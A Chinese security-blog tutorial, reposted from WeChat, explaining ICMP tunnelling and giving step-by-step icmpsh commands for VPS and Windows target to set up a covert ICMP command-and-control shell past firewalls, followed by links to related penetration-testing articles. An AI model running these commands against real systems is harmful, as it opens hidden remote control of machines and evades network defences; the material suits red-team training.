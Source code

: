 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/A71fO8TTrZhDLllXJ0cUPw)

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFgMbc1iaSFM8ibwFdXXfLcaiaBibibI8h8qbichNvPibbf8YkebRARUtLBkAicbujubL1RJqd0XJlrlhuD6xQ/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=MjM5NzA3Nzg2MA==&mid=2649848166&idx=1&sn=3665bc088ab28971f00b7eb366fba4f8&scene=21#wechat_redirect)

本公众号发布的文章均转载自互联网或经作者投稿授权的原创，文末已注明出处，其内容和图片版权归原网站或作者本人所有，并不代表安世加的观点，若有无意侵权或转载不当之处请联系我们处理，谢谢合作！

欢迎各位添加微信号：**asj-jacky**

加入**安世加** 交流群 和大佬们一起交流安全技术

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjW7O9mn0OeVQlOziauRRibzGF9zdBecFSyYA5Uk9RKZEofWVRm54K9wStw/640?wx_fmt=png)

  

使用 ICMP 进行命令控制 (Icmpsh)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWjz86EMPv3ibcRjoJN7rqtoy8mibNcWFbkF6YT5TuyBPJ9jZxbM7X2ehQ/640?wx_fmt=png)

  

目录

ICMP 隧道

使用 ICMP 进行命令控制 (Icmpsh)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWjz86EMPv3ibcRjoJN7rqtoy8mibNcWFbkF6YT5TuyBPJ9jZxbM7X2ehQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWhahicKJiaaScf1o1l9R4ST9k2Juhib1Mqe4FS94mSXQQnuJeYlUsrBmuA/640?wx_fmt=png)

ICMP 隧道

ICMP 隧道简单实用，是一个比较特殊的协议。在一般的通信协议里，如果两台设备要进行通信，肯定需要开放端口，而在 ICMP 协议下就不需要。最常见的 ping 命令就是利用的 ICMP 协议，攻击者可以利用命令行得到比回复更多的 ICMP 请求。在通常情况下，每个 ping 命令都有相应的回复与请求。

在一些网络环境中，如果攻击者使用各类上层隧道 (例如：HTTP 隧道、DNS 隧道、常规正 / 反向端口转发等) 进行的操作都失败了，常常会通过 ping 命令访问远程计算机，尝试建立 ICMP 隧道，将 TCP/UDP 数据封装到 ICMP 的 ping 数据包中，从而穿过防火墙(防火墙一般不会屏蔽 ping 的数据包)，实现不受限制的访问访问。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWhahicKJiaaScf1o1l9R4ST9k2Juhib1Mqe4FS94mSXQQnuJeYlUsrBmuA/640?wx_fmt=png)

使用 ICMP 进行命令控制 (Icmpsh)

适用场景：目标机器是 Windows 服务器的情况

```
git clone https://github.com/inquisb/icmpsh.git     #先下载icmpsh工具
```

**VPS 的操作**：

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1       #关闭icmp回复,如果要开启icmp回复，该值设置为0
python2 icmpsh_m.py 172.31.226.161 x.x.x.x      #运行，第一个IP是VPS的eth0网卡IP，第二个IP是目标机器出口的公网IP
```

**目标机器的操作：**

```
icmpsh.exe -t x.x.x.x -d 500 -b 30 -s 128
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dZbbarwOk81iafrpSQDbVXzr1dVrbhLovKerRiaia6SicTmstxyvCEmopzetuhRDfAsEK5DKeYyoJNrA/640?wx_fmt=png)

**抓包，可以看到两者之间通信都是 icmp 的数据包**

**![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2cHpwXmcK3yMuYDVA64RcjWJ7BynUYQW1KjVXSuLHEChpg40vlm40SDSwgWWqnn4ek1mbqn7DNfIw/640?wx_fmt=png)**

[![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFjWI9QibTmpF13L33cHIh2bSMLAI4tW7sTgTkzh4lRcZ6JR7SrOibCTYUEsg8ZsmyKnUBm7h4J5klZw/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=MzA3NzM2MjAzMg==&mid=2657228904&idx=1&sn=aa0d7a52864f19cbd6245a46ce162a1f&scene=21#wechat_redirect)

[内网渗透（十八）| 工具的使用：MSF 中获取用户密码](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247495828&idx=3&sn=64b978670f81deee0a5e07137799be05&chksm=fc7bf449cb0c7d5fdacd74bc9d760134228b94cf04003a2237e92755b1477f29a267f4e52046&scene=21#wechat_redirect)  

[内网渗透（十七） | 内网转发及隐蔽隧道：使用 SSH 做端口转发以及反向隧道](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247494972&idx=1&sn=0e309e74481b64577b87c3802d75858c&chksm=fc7be9e1cb0c60f71eb23300f692cea9936327254e285851fb7f6ee9fcd57debef711d69766b&scene=21#wechat_redirect)  

[内网渗透（十六） | 域分析工具 BloodHound 的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247494062&idx=1&sn=0c486f53daca08ee61abc51926db2b96&chksm=fc7bed73cb0c646557767e2e21d3c0113df80f831263dea4ce45bd6969da44f27ee700518427&scene=21#wechat_redirect)  

[内网渗透 | 红蓝对抗：Windows 利用 WinRM 实现端口复用打造隐蔽后门](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247493916&idx=2&sn=eacc42e5f8f68fc65dae1c8a1201f014&chksm=fc7bedc1cb0c64d7115c0c3bf84410e29102a25627891c9eb85cba2026b7bc3622a9ebb5e2b2&scene=21#wechat_redirect)  

[内网渗透（十五） | psexec 工具使用浅析 (admin$)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247493004&idx=1&sn=e908ac6ef03c0b5ae0cc5a2cabba7ebb&chksm=fc7be151cb0c684789bbc5f6a54e5906a3fed929eeffdba7667839491826fbb029bba295ef82&scene=21#wechat_redirect)  

[内网渗透（十四） | 工具的使用 | Impacket 的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247492731&idx=1&sn=570c1d9e12ef39709e289b5cc9e2447f&chksm=fc7be0a6cb0c69b0d94c41408b862214beaa631b04ba32f2307819a8b3ac445726849cb24e7f&scene=21#wechat_redirect)

[内网渗透（十三） | WinRM 远程管理工具的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247492427&idx=1&sn=af3a862d78184e93b6e9377f12bce354&chksm=fc7be796cb0c6e80a057dff2a7d67e3483c33e8da2d3a7acb84d04fdd997f28cb89f1fd617fd&scene=21#wechat_redirect)  

[内网渗透（十二） | 利用委派打造隐蔽后门 (权限维持)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247491363&idx=1&sn=e5d6670b0f76299d92110d7b679ad70b&chksm=fc781bfecb0f92e8aacaa6f4f7788ed48577e25f943d92073b1b26e68bfbc8f505b2dd2fa4d8&scene=21#wechat_redirect)  

[内网渗透（十一） | 哈希传递攻击 (Pass-the-Hash,PtH)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490908&idx=1&sn=97594fbbef40346d07b5a6e5185ce77e&chksm=fc781981cb0f9097d18f4b32ff39f59b3512cedd35f0810ad5f61b661e631153f8c4e157d875&scene=21#wechat_redirect)  

[技术干货 | 工具：Social engineering tookit 钓鱼网站](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490513&idx=2&sn=10afb29a20f37df05ebb12ea4d540e1f&chksm=fc781f0ccb0f961a85e646dd54e977dbcaeb5569be6701db4c29b9e204d964bab3ded6bf1999&scene=21#wechat_redirect)

[技术干货 | 工具的使用：CobaltStrike 上线 Linux 主机 (CrossC2)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490608&idx=1&sn=f2b2ea93b109447aa8cc2c872aa87c52&chksm=fc7818edcb0f91fbf85fa53f71e9967fc29fc93f6a783eed154707ca2dec24ca7f419fde5705&scene=21#wechat_redirect)

[内网渗透（十） | 票据传递攻击](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490376&idx=2&sn=c070dd4c761b49d3fabd573cc9c96b5a&chksm=fc781f95cb0f9683b0f6c64f5db5823973c1b10e87b1452192bbed6c1159eccf6e8f2fd0290b&scene=21#wechat_redirect)  

[内网渗透（九） | Windows 域的管理](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490197&idx=1&sn=4682065ddcab00b584918bc267e33f53&chksm=fc781e48cb0f975eddc44d77698fbb466d0eac7d745a6e5bbaf131560b3d4f9e22c1a359d241&scene=21#wechat_redirect)  

[内网渗透（八） | 内网转发工具的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247490042&idx=1&sn=136d4057044a7d6f6cb5b57d20f7954a&chksm=fc781d27cb0f9431ec590662ab4e6bcd31b303e7caa20a2b116fd9a9b97e9e3be0bc34408490&scene=21#wechat_redirect)  

[内网渗透 | 域内用户枚举和密码喷洒攻击 (Password Spraying)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489985&idx=1&sn=0b7bce093e501b9817f263c24e0ed5b8&chksm=fc781d1ccb0f940aad0c9b2b06b68c7a58b0b4c513fe45f7da6e6438cac76d4778e61122faf8&scene=21#wechat_redirect)  

[内网渗透（七） | 内网转发及隐蔽隧道：网络层隧道技术之 ICMP 隧道 (pingTunnel/IcmpTunnel)](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489736&idx=2&sn=0cb551ee520860878c2c33108033c00c&chksm=fc781c15cb0f9503f672aa0bd18cb13fef4c60124ba5978ab947c34272b2d8a28c584a99219d&scene=21#wechat_redirect)  

[内网渗透（六） | 工作组和域的区别](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489205&idx=1&sn=24f9a2e0e6b92a167f3082bb6e09c734&chksm=fc781268cb0f9b7e3c11d19a9fb41567124055eb0e8dd526cbbaf1e9393ff707f9fa9d10c32b&scene=21#wechat_redirect)  

[内网渗透（五） | AS-REP Roasting 攻击](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489128&idx=1&sn=dac676323e81307e18dd7f6c8998bde7&chksm=fc7812b5cb0f9ba3a63c447468b7e1bdf3250ed0a6217b07a22819c816a8da1fdf16c164fce2&scene=21#wechat_redirect)

[内网渗透 | 内网穿透工具 FRP 的使用](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247489057&idx=3&sn=f81ef113f1f136c2289c8bca24c5deb1&chksm=fc7812fccb0f9beaa65e5e9cf40cf9797d207627ae30cb8c7d42d8c12a2cb0765700860dab84&scene=21#wechat_redirect)  

[内网渗透（四） | 域渗透之 Kerberoast 攻击_Python](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488972&idx=1&sn=87a6d987de72a03a2710f162170cd3a0&chksm=fc781111cb0f98070f74377f8348c529699a5eea8497fd40d254cf37a1f54f96632da6a96d83&scene=21#wechat_redirect)  

[内网渗透（三） | 域渗透之 SPN 服务主体名称](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488936&idx=1&sn=82c127c8ad6d3e36f1a977e5ba122228&chksm=fc781175cb0f986392b4c78112dcd01bf5c71e7d6bdc292f0d8a556cc27e6bd8ebc54278165d&scene=21#wechat_redirect)  

[内网渗透（二） | MSF 和 CobaltStrike 联动](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488905&idx=2&sn=6e15c9c5dd126a607e7a90100b6148d6&chksm=fc781154cb0f98421e25a36ddbb222f3378edcda5d23f329a69a253a9240f1de502a00ee983b&scene=21#wechat_redirect)  

[内网渗透 | 域内认证之 Kerberos 协议详解](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488900&idx=3&sn=dc2689efec7757f7b432e1fb38b599d4&chksm=fc781159cb0f984f1a44668d9e77d373e4b3bfa25e5fcb1512251e699d17d2b0da55348a2210&scene=21#wechat_redirect)  

[内网渗透（一） | 搭建域环境](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488866&idx=2&sn=89f9ca5dec033f01e07d85352eec7387&chksm=fc7811bfcb0f98a9c2e5a73444678020b173364c402f770076580556a053f7a63af51acf3adc&scene=21#wechat_redirect)